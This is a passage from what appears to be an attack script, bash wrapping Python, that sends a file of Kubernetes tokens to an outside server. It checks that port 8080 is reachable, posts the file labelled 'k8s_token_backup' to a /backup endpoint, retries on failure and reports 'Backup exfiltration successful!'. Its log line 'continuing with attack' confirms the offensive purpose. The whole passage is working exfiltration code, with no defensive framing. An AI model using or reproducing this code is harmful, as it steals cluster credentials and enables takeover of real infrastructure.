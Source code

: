 ```bash
        
        # Check if server is reachable first
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(3)
            result = sock.connect_ex((server, 8080))
            if result == 0:
                print("Server {}:8080 is reachable".format(server))
            else:
                print("Server {}:8080 is NOT reachable (error code: {})".format(server, result))
                if attempt < 2:
                    print("Waiting 2 seconds before retry...")
                    time.sleep(2)
                    continue
            sock.close()
        except Exception as sock_err:
            print("Socket error checking server: {}".format(str(sock_err)))
        
        # Try to send the data
        if os.path.exists(backupfile):
            with open(backupfile, "rb") as f:
                response = requests.post(
                    "http://{}:8080/backup".format(server), 
                    files={"file": (os.path.basename(backupfile), f, "text/plain")},
                    data={"type": "k8s_token_backup"}
                )
            print("Backup exfiltration status: {}".format(response.status_code))
            response_text = response.text[:100] if hasattr(response, "text") else "No response text"
            print("Response body: {}".format(response_text))
            if response.status_code == 200:
                print("Backup exfiltration successful!")
                break
        else:
            print("Cannot read backup file: {}".format(backupfile))
            response = requests.post("http://{}:8080/backup".format(server), 
                               data={"message": "Backup file not found"})
            print("Error notification status: {}".format(response.status_code))
        
        if attempt < 2:
            print("Waiting 2 seconds before retry...")
            time.sleep(2)
            
    except Exception as e:
        print("Error during backup exfiltration: {}".format(str(e)))
        if attempt < 2:
            print("Waiting 2 seconds before retry...")
            time.sleep(2)
'
) || log "$RED" "Backup exfiltration failed but continuing with attack"
```
